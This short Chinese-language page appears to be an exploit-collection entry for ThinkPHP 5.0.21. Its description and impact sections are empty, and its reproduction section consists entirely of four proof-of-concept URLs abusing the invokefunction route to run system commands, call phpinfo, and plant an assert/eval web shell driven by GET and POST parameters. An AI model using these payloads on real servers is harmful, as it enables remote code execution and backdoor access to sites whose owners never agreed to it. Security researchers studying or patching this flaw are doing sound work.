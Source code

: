 Thinkphp 5.0.21
===============

一、漏洞简介
------------

二、漏洞影响
------------

三、复现过程
------------

### 1、poc

    http://0-sec.org/thinkphp_5.0.21/?s=index/\think\app/invokefunction&function=call_user_func_array&vars[0]=system&vars[1][]=whoami

### 2、poc

    http://0-sec.org/thinkphp_5.0.21/?s=index/\think\app/invokefunction&function=call_user_func_array&vars[0]=phpinfo&vars[1][]=1

### 3、poc

    http://0-sec.org/public/index.php?s=index/think\app/invokefunction&function=call_user_func_array&vars[0]=assert&vars[1][]=@eval($_GET['fuck']);&fuck=system("whoami");

### 4、poc

    http://0-sec.org/public/index.php?s=index/think\app/invokefunction&function=call_user_func_array&vars[0]=assert&vars[1][]=@eval($_GET['fuck']);&fuck=eval($_POST[ian])
